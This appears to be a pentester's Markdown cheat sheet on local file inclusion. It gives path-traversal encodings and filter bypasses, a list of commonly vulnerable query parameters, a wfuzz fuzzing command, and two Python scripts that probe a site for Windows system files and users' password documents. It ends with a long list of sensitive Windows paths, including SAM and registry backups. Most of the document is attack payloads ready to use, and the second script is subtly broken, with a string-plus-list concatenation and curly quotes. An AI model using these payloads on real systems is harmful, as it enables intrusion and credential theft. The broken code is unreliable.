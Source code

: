## Traversal encoding:
Remember this is a guide to ideas of how to encode lfi, encoding payloads on the fly not from here.
```
../
..\
..\/
../etc/passwd\.\	# Path and dot truncation
../etc/passwd/./
%2e%2e%2f
%252e%252e%252f 	# Double encoding
%c0%ae%c0%ae%c0%af	# utf-8 encoding
%uff0e%uff0e%u2215
%uff0e%uff0e%u2216
..././
....\
%00					# null byte
....////			# filter bypass
/%5C../%5C..

```

## Cheatsheets
[certcube](https://blog.certcube.com/detailed-cheatsheet-lfi-rce-websheels/)

## Wrappers 


## Parametres
[Hacktricks reference TR Bug Hunters](https://twitter.com/trbughunters/status/1279768631845494787)
```
?cat={payload}
?dir={payload}
?action={payload}
?board={payload}
?date={payload}
?detail={payload}
?file={payload}
?download={payload}
?path={payload}
?folder={payload}
?prefix={payload}
?include={payload}
?page={payload}
?inc={payload}
?locate={payload}
?show={payload}
?doc={payload}
?site={payload}
?type={payload}
?view={payload}
?content={payload}
?document={payload}
?layout={payload}
?mod={payload}
?conf={payload}
```

## wfuzz -c -w ./lfi2.txt --hw 0 http://10.10.10.10/nav.php?page=../../../../../../../FUZZ

## Script LFI starting 
ON TODO LIST
[rapid7 blog](https://www.rapid7.com/blog/post/2016/07/29/pentesting-in-the-real-world-local-file-inclusion-with-windows-server-files/)

```python
import requests
import webbrowser
 
 
url = 'http://www.testpage.com?page='
 
LFI = '../../../../../../../../../'
 
pages = ['WINDOWS/system32/drivers/etc/hosts', 'WINDOWS/system32/win.ini', 'WINDOWS/system32/debug/NetSetup.log', 'WINDOWS/system32/config/AppEvent.Evt', 'WINDOWS/system32/config/SecEvent.Evt', 'WINDOWS/Panther/unattend.txt', 'WINDOWS/Panther/unattend.xml', 'WINDOWS/Panther/unattended.xml', 'WINDOWS/Panther/sysprep.inf']
 
for x in pages:
                  check = requests.get(url + LFI + x)
                  if check.status_code == 200:
                                    webbrowser.open(url + LFI + x)

import requests
import webbrowser
 
 
url = 'http://www.testpage.com?page='
 
LFI = '../../../../../../../../../'
 
usernames = ['bob.jones', 'tom.johnson', 'mary.thomas', 'bill.smith']
 
desktopini = '/Desktop/desktop.ini'
 
usersfiles = ['accounts.txt', 'passwords.doc', 'configs.txt', 'sensitiveinfo.doc']
 
for x in usernames:
                  check = requests.get(url + LFI + x + desktopini)
                  if check.status_code == 200:
                                    print(‘User ’ + x + ‘was found’)
                                    desktopsearch = requests.get(url + LFI + '/Desktop/' + usersfiles)
                                    if desktopsearch.status_code == 200:
                                                      webbrowser.open(url + LFI + '/Desktop/' + usersfiles)
```
						
## File paths 


Windows File paths
```
C:/Users/Administrator/NTUser.dat
C:/Documents and Settings/Administrator/NTUser.dat
C:/apache/logs/access.log
C:/apache/logs/error.log
C:/apache/php/php.ini
C:/boot.ini
C:/inetpub/wwwroot/global.asa
C:/MySQL/data/hostname.err
C:/MySQL/data/mysql.err
C:/MySQL/data/mysql.log
C:/MySQL/my.cnf
C:/MySQL/my.ini
C:/php4/php.ini
C:/php5/php.ini
C:/php/php.ini
C:/Program Files/Apache Group/Apache2/conf/httpd.conf
C:/Program Files/Apache Group/Apache/conf/httpd.conf
C:/Program Files/Apache Group/Apache/logs/access.log
C:/Program Files/Apache Group/Apache/logs/error.log
C:/Program Files/FileZilla Server/FileZilla Server.xml
C:/Program Files/MySQL/data/hostname.err
C:/Program Files/MySQL/data/mysql-bin.log
C:/Program Files/MySQL/data/mysql.err
C:/Program Files/MySQL/data/mysql.log
C:/Program Files/MySQL/my.ini
C:/Program Files/MySQL/my.cnf
C:/Program Files/MySQL/MySQL Server 5.0/data/hostname.err
C:/Program Files/MySQL/MySQL Server 5.0/data/mysql-bin.log 
C:/Program Files/MySQL/MySQL Server 5.0/data/mysql.err 
C:/Program Files/MySQL/MySQL Server 5.0/data/mysql.log 
C:/Program Files/MySQL/MySQL Server 5.0/my.cnf
C:/Program Files/MySQL/MySQL Server 5.0/my.ini
C:/Program Files (x86)/Apache Group/Apache2/conf/httpd.conf 
C:/Program Files (x86)/Apache Group/Apache/conf/httpd.conf 
C:/Program Files (x86)/Apache Group/Apache/conf/access.log 
C:/Program Files (x86)/Apache Group/Apache/conf/error.log 
C:/Program Files (x86)/FileZilla Server/FileZilla Server.xml 
C:/Program Files (x86)/xampp/apache/conf/httpd.conf 
C:/WINDOWS/php.ini 
C:/WINDOWS/Repair/SAM 
C:/Windows/repair/system 
C:/Windows/repair/software 
C:/Windows/repair/security 
C:/WINDOWS/System32/drivers/etc/hosts
C:/Windows/win.ini 
C:/WINNT/php.ini
C:/WINNT/win.ini
C:/xampp/apache/bin/php.ini
C:/xampp/apache/logs/access.log 
C:/xampp/apache/logs/error.log 
C:/Windows/Panther/Unattend/Unattended.xml 
C:/Windows/Panther/Unattended.xml 
C:/Windows/debug/NetSetup.log 
C:/Windows/system32/config/AppEvent.Evt 
C:/Windows/system32/config/SecEvent.Evt 
C:/Windows/system32/config/default.sav 
C:/Windows/system32/config/security.sav 
C:/Windows/system32/config/software.sav 
C:/Windows/system32/config/system.sav 
C:/Windows/system32/config/regback/default 
C:/Windows/system32/config/regback/sam 
C:/Windows/system32/config/regback/security 
C:/Windows/system32/config/regback/system 
C:/Windows/system32/config/regback/software
C:/Program Files/MySQL/MySQL Server 5.1/my.ini 
C:/Windows/System32/inetsrv/config/schema/ASPNET_schema.xml 
C:/Windows/System32/inetsrv/config/applicationHost.config 
C:/inetpub/logs/LogFiles/W3SVC1/u_ex[YYMMDD].log

```

## References
[certcube](https://blog.certcube.com/detailed-cheatsheet-lfi-rce-websheels/)
[Kory Kyzar](https://gist.github.com/korrosivesec)
[rapid7](https://www.rapid7.com/blog/post/2016/07/29/pentesting-in-the-real-world-local-file-inclusion-with-windows-server-files/)